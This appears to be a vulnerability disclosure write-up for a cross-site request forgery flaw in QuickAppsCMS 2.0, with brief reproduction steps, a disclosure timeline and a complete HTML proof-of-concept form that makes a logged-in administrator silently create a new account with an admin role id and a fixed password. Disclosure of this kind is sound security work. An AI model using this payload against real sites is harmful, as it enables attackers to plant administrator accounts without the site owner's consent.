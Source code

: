 # CVE-2018-xxxx

## Summery
this vuln is CSRF vuln that allows to create any kinds of account.

When an attacker induce authorized victims to a malicious webpage and make them send requests. a victim creates an account without their intent. (with Admin account).

## Target 
[Quickappscms 2.0](http://www.quickappscms.org/)

## Reproduce
This is a step how to reproduce.
 1. Access to the html page has payload content after you login to admin(/en_US/admin/) page.

Then you find an admin account is created.



## Payloads

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://your.cms.domain.example.com/en_US/admin/user/manage/add" method="POST">
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="email" value="test&#64;example&#46;com" />
      <input type="hidden" name="web" value="" />
      <input type="hidden" name="locale" value="" />
      <input type="hidden" name="status" value="0" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="password" value="testtest" />
      <input type="hidden" name="password2" value="testtest" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;" value="" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;&#91;&#93;" value="1" />
      <input type="hidden" name="welcome&#95;message" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

## Reference
 - [GitHub IssuePage]()

## Event
 - 2018-03-15 this vulnerability is discovered.
 - 2018-03-27 Open an issue on Github.
 - 

